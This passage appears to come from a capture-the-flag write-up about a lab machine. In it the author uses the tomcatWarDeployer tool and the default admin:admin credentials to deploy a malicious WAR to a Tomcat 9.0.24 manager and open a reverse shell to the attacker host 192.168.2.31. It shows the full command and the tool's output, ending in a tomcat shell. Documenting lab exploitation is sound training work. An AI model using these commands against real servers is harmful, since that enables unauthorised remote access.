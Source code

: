 And from what I read, I can perform an RCE by uploading a `.war` file, And it mentions a [github tool tomcatWarDeployer](https://github.com/mgeeky/tomcatWarDeployer) for that, when I use the `git` command to clone it:
```shell
$ git clone https://github.com/mgeeky/tomcatWarDeployer.git
```
And inside the repository, I run the Python3 command:
```shell
$ python3 tomcatWarDeployer.py -x -U admin -P admin -H 192.168.2.31 \
> -p 1234 192.168.2.35:8080/manager/html/

TypeError: can only concatenate str (not "bytes") to str
```
Then it fails with a version error between Python2 and Python3 and I had to fix that error on multiple lines, but after that, I get the output:
```shell
...
INFO: Reverse shell will connect to: 192.168.2.31:1234.
INFO: Apache Tomcat/b'9.0.24' Manager Application reached & validated.
INFO: At: "http://192.168.2.35:8080/manager/html/"
INFO: WAR DEPLOYED! Invoking it...
...
b'tomcat'@b'hacksudo' $
```
And I get a web shell with the tomcat user:

![evidence](./static/13-tomcat-exploit.png)

## Exploitation
Reverse shell, extracting data from an image and abusing user permissions

Given I access `http://192.168.2.35:8080/`, and it runs the `Tomcat 9.0.24` service, and I have the `admin` credentials `admin:admin`, and I use the `tomcatWarDeployer` to create the `.war` file, then I can perform a reverse shell.

